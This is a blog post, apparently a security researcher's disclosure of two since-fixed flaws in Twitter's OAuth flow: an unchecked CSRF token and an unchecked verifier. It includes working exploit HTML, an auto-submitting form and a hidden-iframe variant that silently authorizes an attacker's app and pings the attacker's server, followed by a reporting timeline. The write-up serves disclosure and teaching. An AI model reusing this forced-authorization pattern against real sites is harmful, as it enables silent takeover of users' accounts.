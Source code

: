 # Twitter OAuth Vulnerability

A while ago I found quite a serious vulnerability in Twitter's implementation of [OAuth](http://en.wikipedia.org/wiki/OAuth).

The vulnerability I discovered is so severe that simply visiting a malicious webpage could give an attacker complete read, write and direct message access to your Twitter account.

Before I go into details of the vulnerability, let me make it clear that this vulnerability has been reported to Twitter and has been confirmed fixed.

## A quick OAuth primer

If you've ever used a Facebook or Twitter app before, you've come into contact with OAuth.

OAuth is a popular authorization protocol commonly used by service providers to allow users to connect with 'apps' and allow these apps to interact with the user's account.

Requesting access to a user's account via OAuth is quite simple:

Firstly, your application (the *consumer*) sends an authenticated request to the service provider to obtain a request token. Your application then redirects the user to the endpoint nominated by the service provider with this request token as a URL parameter.

If the user has never authorized your application before, the service provider will display a page asking the user if they wish to authorize your app to access their account. If the user chooses to allow your app access, they are redirected back to a URL your application nominates with a verifier token parameter.

Your application then presents this verifier token, the original request token, and a secret to the service provider and retrieves an access token. This access token allows your application to perform authenticated actions against the user's account.

## The first vulnerability in Twitter's OAuth implementation

Twitter's confirmation form presented to users when an app requests access to their account looks something like this:

    \html
    <form action="https://twitter.com/oauth/authorize" id="oauth_form" method="post">
      <div style="margin:0;padding:0">
        <input name="authenticity_token" type="hidden" value="[CSRF TOKEN]" />
      </div>
      
      <input id="oauth_token" name="oauth_token" type="hidden" value="[ORIGINAL REQUEST TOKEN]" />        
      <fieldset class="buttons">
        <legend>Authorize [APP NAME] access to use your account?</legend>
        <input type="submit" value="Authorize app" class="submit button selected" id="allow">
        <input class="submit button" id="cancel" name="cancel" type="submit" value="Cancel" />
      </fieldset>
    </form>

You'll notice that this form only sends two pieces of information to Twitter when the user clicks 'Allow':

* `oauth_token` — This happens to be the original token Twitter provided us with when we requested to authorize the user. This is **known information**.

* `authenticity_token` — This is a token intended to prevent CSRF attacks. The purpose of this token is to thwart attempts to forge an authenticated form submission from another website. The security of this form relies on this token being **unknown** to our app.

Unfortunately, there is no easy way to guess what `authenticity_token` Twitter serves to the user in this form.

Fortunately, **Twitter never bothers to check this token**.

Since we know every bit of information this form submits, we can create our own auto-submitting form that POSTs to Twitter's OAuth authorize endpoint to force the user to allow our malicious application access to their account.

Here's what such a form looks like:

    \html
    <form name="twitter" action="https://api.twitter.com/oauth/authorize" method="post">
      <input type="hidden" name="oauth_token" value="[ORIGINAL REQUEST TOKEN]" />
    </form>

    <script>
      document.forms.twitter.submit();
    </script>

When this form is submitted, the user will be sent to Twitter's "*redirecting back to the application*" page, which then redirects back to us and supplies the `oauth_verifier` we need to request an access token for the user.

This vulnerability is already bad enough, but the quick flash of Twitter's redirecting splash page may alert the user that something fishy is going on. We need to do better than this.

## The second vulnerability in Twitter's OAuth implementation

Once the user has authorized our app (whether willingly or not...), Twitter redirects them back to our app with a special `oauth_verifier` token in the URL. In theory, we'd need to use this verifier token to obtain the access_token from Twitter.

Luckily for us, **Twitter never bothers to check that we've supplied a verifier token!**

This means we can forge a POST request to Twitter's authorize endpoint into a hidden iframe, wait a second or two, then send a 'ping' back to our server letting it know it can try to retrieve the `access_token` from Twitter:

    \html
    <form name="twitter" action="https://api.twitter.com/oauth/authorize" method="post" target="target">
      <input type="hidden" name="oauth_token" value="[ORIGINAL REQUEST TOKEN]" />
    </form>

    <form name="ping" action="/confirm" target="target"></form>

    <iframe name="target" style="position:absolute;left:-999px;top:-999px;"></iframe>

    <script>
      document.forms.twitter.submit();

      setTimeout(function() {
        document.forms.ping.submit();
      }, 2000);
    </script>

Once the second "*ping*" form has submitted back to our server, we can retrieve an access token for the user and start making authenticated API requests on their behalf, even once they've closed our page!

What makes this vulnerability so dangerous is that by POSTing into a hidden iframe, all this activity is invisible to the user. They have absolutely no idea that they have been compromised.

## Twitter's response

Here's a timeline of the vulnerability discovery and reporting process:

* **March 31st** — Vulnerability discovered.

* **April 3rd** — Vulnerability reported to Twitter with [full proof of concept exploit](https://gist.github.com/haileysome/8241429802f57f063177).

* **April 3rd** — Twitter acknowledges receipt of the vulnerability.

* **April 5th** — Twitter claims to have fixed the vulnerability.

* **April 6th** — I inform Twitter that their OAuth implementation is still vulnerable to CSRF.

* **April 7th** — Twitter acknowledges they are vulnerable to CSRF, claims this is not a problem and that they are secure regardless.

* **April 7th** — [Slightly modified proof of concept exploit](https://gist.github.com/haileysome/c34935d45fd7355cf42d) provided to Twitter.

* **April 8th** — Twitter claims that "this time it really should be fixed!"

* **April 8th** — I confirm Twitter is no longer vulnerable.

* **April 8th** — Twitter asks if I would like to be added to their whitehat list.

* **April 8th** — I let Twitter know I wish to be added to their whitehat list.

* **April 8th** — Twitter tells me I'll be added to their whitehat list on the next update. Twitter tells me to be patient because they don't update it very frequently.

* **April 22nd** — Twitter **still** hasn't added me to their whitehat list, despite requests for updates on the situation.

It's important to remember that security researchers are in *no way* obligated to disclose vulnerabilities to your organisation. Each vulnerability reported is a gift. Treat whitehats poorly, and you may find they are reluctant to extend gestures of goodwill in the future.

Needless to say, I'll think twice before reporting another vulnerability to Twitter.

(also yes, I am aware of the irony of the footer section below this sentence)
